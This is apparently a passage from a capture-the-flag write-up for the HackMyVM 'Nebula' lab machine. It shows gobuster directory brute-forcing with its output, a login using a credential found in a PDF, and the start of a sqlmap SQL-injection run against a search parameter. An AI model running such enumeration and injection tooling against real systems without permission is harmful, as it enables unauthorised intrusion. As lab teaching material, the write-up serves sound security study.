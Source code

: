 ![ALT Text](https://github.com/0xsynix/Writeups/blob/main/assets/HackMyVM/Nebula/1.png)
<br>

#### >> Brute Force files and subdirectories with `gobuster`
```shell
┌──(synix㉿zer0day)-[~]
└─$ gobuster dir -u http://192.168.209.4 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.209.4
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 312] [--> http://192.168.209.4/img/]
/login                (Status: 301) [Size: 314] [--> http://192.168.209.4/login/]
/joinus               (Status: 301) [Size: 315] [--> http://192.168.209.4/joinus/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
- `/login` and `joinus` looks intresting
- `/joinus` gives us access to a PDF to join. In pdf there is this information.
<br>

![ALT Image](https://github.com/0xsynix/Writeups/blob/main/assets/HackMyVM/Nebula/2.png)

- With username & password we can log in to `/login`
-  `admin:d46df8e6a5627debf930f7b5c8f3b083`
-  And we got access to dashboard! there is some functionality for search centrals & meeting room
<br>

![ALT Image](https://github.com/0xsynix/Writeups/blob/main/assets/HackMyVM/Nebula/3.png)

- Url looks vulnerable to SQL Injection
- Let's Try running `sqlmap`

```shell
┌──(synix㉿zer0day)-[~]
└─$ sqlmap -v --batch --dbs -u 192.168.209.4/login/search_central.php?id=2
        ___
       H
 ___ ___[,]_____ ___ ___  {1.8.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:24:36 /2024-09-02/

[11:24:36] [INFO] resuming back-end DBMS 'mysql' 
```